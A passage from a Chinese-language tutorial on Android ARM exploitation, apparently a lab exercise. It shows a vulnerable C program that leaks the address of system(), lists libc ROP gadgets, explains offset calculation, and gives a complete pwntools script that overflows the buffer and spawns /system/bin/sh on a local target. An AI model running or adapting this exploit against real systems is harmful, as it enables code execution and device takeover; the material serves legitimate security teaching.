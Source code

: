 ```
read(STDIN_FILENO, buf, 256);
}

int main(int argc, char** argv) {
getsystemaddr();
write(STDOUT_FILENO, "Hello, World\n", 13);    
vulnerable_function();
}

```

这个程序会先输出system的地址，相当于我们已经获取了这个进程的内存布局了。接下来要做的就是在libc.so中寻找我们需要的gadgets和字符串地址。因为libc.so很大，我们完全不用担心找不到需要的gadgets，并且我们只需要控制一个r0即可。因此这些gadgets都能满足我们的需求：

```
0x00014f48 : ldr r0, [sp, #4] ; pop {r1, r2, r3, pc}
0x0002e404 : ldr r0, [sp, #4] ; pop {r2, r3, r4, r5, r6, pc}
0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}

```

接下来就是在libc.so中找`system()`和`"/system/bin/sh"`的位置：

![p4](http://drops.javaweb.org/uploads/images/3da89e43f63946014f94d8dfe1adf936e203e39d.jpg)

![p5](http://drops.javaweb.org/uploads/images/e319ad0c6e3cc584accee94c60422c1f53c1fb70.jpg)

可以看到地址分别为`0x000253A4`和`0x0003F9B4`。当然了，就算获取了这些地址，我们也需要根据`system()`在内存中的地址进行偏移量的计算才能够成功的找到gadgets和`"/system/bin/sh"`在内存中的地址。除此之外，还要注意thumb指令和arm指令的转换问题。最终的exp level8.py如下：

```
#!/usr/bin/env python
from pwn import *

#p = process('./level8')
p = remote('127.0.0.1',10001)

system_addr_str = p.recvuntil('\n')
print "str:" + system_addr_str
system_addr = int(system_addr_str,16)
print "system_addr = " + hex(system_addr)

p.recvuntil('\n')

#.text:000253A4                 EXPORT system

#0x00034ace : ldr r0, [sp] ; pop {r1, r2, r3, pc}
gadget1 = system_addr + (0x00034ace - 0x000253A4)
print "gadget1 = " + hex(gadget1)

#.rodata:0003F9B4 aSystemBinSh    DCB "/system/bin/sh",0
r0 = system_addr + (0x0003F9B4 - 0x000253A4) - 1
print "/system/bin/sh addr = " + hex(r0)

payload =  '\x00'*132 + p32(gadget1) + p32(r0) + "\x00"*0x8 + p32(system_addr)

p.send(payload)

p.interactive()

```
